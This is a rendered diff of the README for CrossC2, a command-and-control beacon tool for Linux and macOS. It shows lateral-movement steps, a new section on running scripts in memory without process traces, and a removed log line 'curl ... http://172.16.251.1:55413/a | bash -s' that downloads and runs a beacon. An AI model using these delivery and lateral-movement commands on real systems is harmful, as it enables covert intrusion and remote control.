

Before and after one commit to gloxec/CrossC2, a Markdown page: README.md, the part around the change printed below. Shown: that part at 88% size. Rendered like a GitHub page; pictures changed too: media/15901534124389/16041501958652.jpg (added), media/15901534124389/16041502298949.jpg (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -112,35 +114,27 @@ The type of output information can be freely specified at the time of execution.
 
 Can more easily realize C2Profile configuration and custom communication protocol TCP / UDP and so on.
 
-## Lateral movement: Usage [📖 Wiki]()
+## Lateral movement
 
-1. 生成 `Linux-bind` / `MacOS-bind` 类型的beacon
-2. 内网中的目标运行 `./MacOS-bind.beacon <port>` 开启服务
-3. 在网络联通的session中运行 `connect <targetIP>:<port>`
+1. Generate beacon of `Linux-bind` / `MacOS-bind` type
+2. The target in the intranet runs `./MacOS-bind.beacon <port>` to start the service
+3. Run `connect <targetIP>:<port>` in the session of China Unicom
 
 
-## cna plugin way
+## Run script in memory
 
-```
-Menu Bar: CrossC2 -> CrossC2 Payload Generator -> genCrossC2
+The script interpreter such as **bash** / **python** / **ruby** / **perl** / **php** in the host can be called directly in the session to execute the script passed into the memory.
+`There is no information in the process, all running content is transferred from the memory to the interpreter`
+1. python c:\getsysteminfo.py
+2. python import base64;print base64.b64encode('whoami'); print 'a'*40
+3. php <?php phpinfo()?>
 
-Can be configured in the pop-up dialog:
-1. Select beacon_key (the path cannot contain spaces, the problem is not solved yet)
-2. A dynamic library of custom communication protocols that needs to be bound to beacon
-3. Payload type (Staged generated shellcode requires stagerServer)
-```
+Try to load local script:
+![](media/15901534124389/16041501958652.jpg)
 
-![](media/15901534124389/15901617930412.jpg)
+Try to run the scripting language directly:
+![](media/15901534124389/16041502298949.jpg)
 
-The information status will be prompted in the **event** interface during generation
-
-```
-05/01 23:31:03 *** /mnt/cc2/genCrossC2.MacOS 172.16.251.1 5555 /tmp/beacon_keys null MacOS x64 /tmp/CrossC2-test
-05/01 23:31:06 *** genCrossC2 beacon -> *[success] :	Packed 1532232 byte.
-05/01 23:31:07 *** hook hosted CrossC2 beacon MacOS x64 @ http://172.16.251.1:55413/iqEBVKwHoZ
-05/01 23:31:07 *** hook hosted Script Unix Web Delivery (curl) @ http://172.16.251.1:55413/a
-05/01 23:31:07 *** CrossC2 MacOS x64:   curl -A o -o- -L http://172.16.251.1:55413/a | bash -s
-```
 
 
 # Coming soon
````
Also changed, not shown: other parts of README.md (+9 -2 lines), README_zh.md (+20 -22 lines).
